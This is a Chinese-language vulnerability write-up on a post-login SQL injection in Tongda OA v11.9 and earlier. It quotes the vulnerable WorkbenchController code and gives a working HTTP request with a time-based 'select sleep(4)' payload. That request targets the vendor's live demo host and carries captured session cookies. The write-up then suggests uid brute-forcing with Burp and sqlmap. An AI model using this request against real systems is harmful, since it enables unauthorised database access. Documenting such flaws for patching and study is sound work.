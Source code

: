 # 通达OA v11.9 后台SQL注入漏洞

## 漏洞描述

通达OA v11.9 及以下版本中由于某些参数过滤不完善导致后台存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 通达OA <=  v11.9

## 环境搭建

```
https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe
```

双击安装

![](image\tongdaoa-1.png)

## 漏洞复现

漏洞文件位 **webroot/general/appbuilder/modules/portal/controllers/WorkbenchController.php**

```
public function actionUpsharestatus()
	{
		Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
		$data = modules\appdesign\models\AppUtils::toGBK($_POST);

		if (modules\portal\controllers\intval($data["uid"]) == $_SESSION["LOGIN_UID"]) {
			modules\portal\models\PortalWorkbench::updateAll(array("state" => "{$data["status"]}"), "id={$data["id"]}");
		}
		else if ($data["status"] == 1) {
			modules\portal\models\PortalWorkbenchState::deleteAll(array("wids" => "{$data["id"]}", "uid" => "{$_SESSION["LOGIN_UID"]}"));
		}
		else {
			$Work = new modules\portal\models\PortalWorkbenchState();
			$Work->wids = $data["id"];
			$Work->uid = $_SESSION["LOGIN_UID"];
			$Work->save();
		}

		$dataBack = array("status" => 1, "msg" => modules\portal\controllers\_("操作成功"));
		$dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBack);
		return $dataBack;
	}
```

![](image/tongdaoa-42.png)

其中 **updateAll()** 函数并没有使用防止 SQL注入的 **sql_injection()** 来防止注入

**webroot/inc/conn.php**

![](image/tongdaoa-43.png)

所以这里就出现了 id 参数存在注入的情况，请求包如下

```
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host: oa.tongda2000.com
Connection: close
Content-Length: 36
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Origin: https://oa.tongda2000.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oa.tongda2000.com/general/appbuilder/web/portal/workbench/upsharestatus
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __root_domain_v=.tongda2000.com; SID_12=5ea03399; USER_NAME_COOKIE=chenqiang; Hm_lvt_7cbefde9059536a2b96aaafc134d625c=1617014067,1617196083; _qddaz=QD.677915359373668; PHPSESSID=nso4iqhvp2qi464eoavk2fn0c0; OA_USER_ID=chenqiang; SID_15=ded66d80; LAST_OPERATION_TIME=1617242241
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

uid=15&status=1&id=1;select sleep(4)
```

注意 uid参数 要为当前用户的uid才能完成请求，可以使用 burp 遍历查看时间响应

例如这里使用官网的测试账户 uid 遍历出为 15

![](image/tongdaoa-45.png)

如果uid错误则不会出现时间延迟，将请求包放入 Sqlmap跑一下

![](image/tongdaoa-46.png)

